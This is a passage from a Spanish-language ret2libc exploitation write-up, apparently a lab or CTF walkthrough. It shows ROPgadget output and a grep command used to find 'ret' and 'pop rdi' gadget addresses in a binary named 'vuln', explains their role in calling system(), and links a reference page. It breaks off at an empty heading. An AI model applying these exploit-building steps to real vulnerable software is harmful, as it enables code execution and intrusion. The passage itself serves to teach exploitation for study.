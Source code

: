 ```
0x0000000000401046 : push 1 ; jmp 0x401020
0x0000000000401056 : push 2 ; jmp 0x401020
0x0000000000401066 : push 3 ; jmp 0x401020
0x0000000000401076 : push 4 ; jmp 0x401020
0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
0x0000000000401016 : ret
0x0000000000401042 : ret 0x2f
0x0000000000401022 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004011e1 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004011e0 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040100c : test eax, eax ; je 0x401012 ; call rax
0x00000000004010d3 : test eax, eax ; je 0x4010e0 ; mov edi, 0x404038 ; jmp rax
0x0000000000401115 : test eax, eax ; je 0x401120 ; mov edi, 0x404038 ; jmp rax
0x000000000040100b : test rax, rax ; je 0x401012 ; call rax

Unique gadgets found: 73
```

Vemos que la que nos interesa seria la siguiente linea:

```
0x0000000000401016 : ret
```

Por lo que seria la dirección `0x0000000000401016`.

### Buscar la dirección de memoria `pop_rdi_ret`

```shell
ROPgadget --binary ./vuln | grep "pop rdi"
```

Info:

```
0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
0x0000000000401168 : mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
0x0000000000401167 : mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
0x000000000040116a : pop rdi ; nop ; pop rbp ; ret
0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
```

Vemos que la que nos interesa seria `0x000000000040116a`.

Esto nos da la dirección del gadget que necesitamos. `pop rdi; ret` carga el valor de un argumento en el registro **rdi** (el primero para las funciones como `system()`) y luego hace un **ret** para volver a la siguiente instrucción, que normalmente será la ejecución de la función.

Podremos obtener mas informacion acerca de esta tecnica y de como funciona en la siguiente pagina en la que me ayudo bastante para poder realizarla.

URL = [Explotacion ret2libc Info](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

> EXPLICACION DE TODO:

